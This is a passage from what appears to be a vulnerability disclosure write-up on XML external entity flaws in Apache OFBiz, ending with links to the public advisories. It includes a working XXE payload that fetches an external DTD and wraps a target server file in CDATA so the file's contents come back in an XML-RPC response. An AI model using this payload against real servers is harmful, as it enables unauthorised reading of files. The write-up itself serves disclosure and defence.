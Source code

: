 Unfortunately, this won't work for every file on the target server. Files containing certain special characters, like `%`, will always fail to parse. One way to get render *some* of these special characters (but not all) is to reference an external DTD file and wrap the contents of the target file in a character data (CDATA) section:

```xml
<!DOCTYPE x [
<!ENTITY % start "<![CDATA[">
<!ENTITY % target-file SYSTEM "file:///path/to/ofbiz/framework/component-load.xml">
<!ENTITY % end "]]>">
<!ENTITY % request-external-dtd SYSTEM "http://example.com/ext.dtd">
%request-external-dtd;
]>
<methodCall><methodName>
&disclose;
</methodName></methodCall>
```

The external file will need to contain the following DTD:
```xml
<!ENTITY disclose "%start;%target-file;%end;">
```

And, of course, the same method of using a local DTD file that was described earlier can be applied here.

# Disclosures
The public disclosures, issued by the Apache OFBiz security team, can be found are here:

* <a href="https://seclists.org/oss-sec/2018/q4/12" target="_blank">https://seclists.org/oss-sec/2018/q4/12</a>
* <a href="https://seclists.org/oss-sec/2018/q4/13" target="_blank">https://seclists.org/oss-sec/2018/q4/13</a>

Contrary to what the disclosures state, both vulnerabilities affect *all* versions of Apache OFBiz up to 16.11.04.
